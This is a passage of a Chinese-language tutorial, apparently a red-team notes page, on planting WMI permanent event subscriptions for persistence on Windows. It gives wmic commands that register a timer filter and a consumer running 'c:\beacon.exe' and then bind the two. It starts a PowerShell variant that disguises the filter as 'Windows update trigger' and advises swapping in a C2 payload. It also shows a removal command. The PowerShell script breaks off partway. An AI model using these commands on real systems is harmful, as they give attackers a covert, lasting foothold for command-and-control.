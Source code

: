     #删除事件绑定
    Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%事件绑定名%'" | Remove-WmiObject -Verbose
    

删除事件过滤器

删除事件消费者

删除事件绑定

###  WMI永久事件

> ***注意**
> ：没有指定时间轮询则需要机器重启才可以进行WMI轮询，需要注意的一点是，WMI可以任意指定触发条件，例如用户退出，某个程序创建，结束等等*。

**wmic添加永久事件**

    
    
    #注册一个 WMI 事件过滤器
    wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BugSecFilter", EventNamespace = "root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __TimerEvent WITHIN 10 WHERE TimerID = 'BugSecFilter'"
    
    #注册一个 WMI 事件消费者
    wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BugSecConsumer", CommandLineTemplate="cmd.exe /c  c:\beacon.exe"
    
    #将事件消费者绑定到事件过滤器
    wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter='\\.\root\subscription:__EventFilter.Name="BugSecFilter"', Consumer='\\.\root\subscription:CommandLineEventConsumer.Name="BugSecConsumer"'
    

**Powershell添加永久事件**

> ***注意** ：可以考虑添加Powershell的时间间隔器，需要上线至C2则将Payload替换成C2的exe或者dll或者ps1即可。*
>
> ***注意** ：需要修改一下参数*
    
    
    IntervalBetweenEvents ###修改间隔时间，以毫秒为单位。
    
    $EventFilterArgs 中的 Name ###修改筛选器名称。
    
    Query ###修改其中WQL语句，以下脚本中可不用修改，但TimerID需和$TimerArgs中的参数匹配。
    
    $FinalPayload ###修改Payload，可以指定执行Powershell，或者cmd或者其他命令。
    
    $CommandLineConsumerArgs 中的 Name ###修改消费者名称。
    
    
    
    $TimerArgs = @{
     IntervalBetweenEvents = ([UInt32] 2000) # 30 min
     SkipIfPassed = $False
     TimerId ="Trigger" };
    
    
    $EventFilterArgs = @{
    EventNamespace = 'root/cimv2'
    Name = "Windows update trigger"
    Query = "SELECT * FROM __TimerEvent WHERE TimerID = 'Trigger'"
    QueryLanguage = 'WQL' };
    